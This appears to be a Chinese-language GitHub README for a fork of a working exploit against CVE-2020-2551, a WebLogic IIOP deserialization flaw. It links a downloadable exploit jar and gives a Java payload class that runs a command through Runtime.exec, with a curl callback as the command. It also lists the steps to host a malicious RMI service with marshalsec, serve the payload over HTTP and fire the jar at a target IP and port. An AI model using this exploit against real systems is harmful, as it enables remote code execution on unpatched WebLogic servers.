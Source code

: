 ## Patch CVE-2020-2551
更新原版本（https://github.com/Y4er/CVE-2020-2551.git）遇到为私有地址的服务器无法直连检测问题。


## 参考
https://xz.aliyun.com/t/7498

https://xz.aliyun.com/t/7374#toc-13




>## CVE-2020-2551
>Weblogic IIOP 反序列化
>
>## 测试环境
>Weblogic10.3.6+jdk1.6
>
>[打包好的jar包](https://pan.baidu.com/s/1WancKEtKzXDxwWP0zz3QPg) 提取码：a6ob 
>
>## 漏洞利用
>下载jar包，然后使用marshalsec起一个恶意的RMI服务，本地编译一个exp.java
>```java
>package payload;
>
>import java.io.IOException;
>
>public class exp {
>
>    public exp() {
>        String cmd = "curl http://172.16.1.1/success";
>        try {
>            Runtime.getRuntime().exec(cmd).getInputStream();
>        } catch (IOException e) {
>            e.printStackTrace();
>        }
>    }
>}
>```
>
>**尽量使用和weblogic相同的jdk版本和依赖库(wlfullclient.jar)编译** 然后本地起一个web服务器
>
>```
>python -m http.server --bind 0.0.0.0 80
>```
>
>命令行运行jar包
>```
>java -jar weblogic_CVE_2020_2551.jar 172.16.1.128 7001 rmi://172.16.1.1:1099/exp
>```
>实际效果如图
>![image](https://user-images.githubusercontent.com/40487319/75524749-81804100-5a49-11ea-8409-20746ca09299.gif)
>
>## 参考
>
>https://y4er.com/post/weblogic-cve-2020-2551/
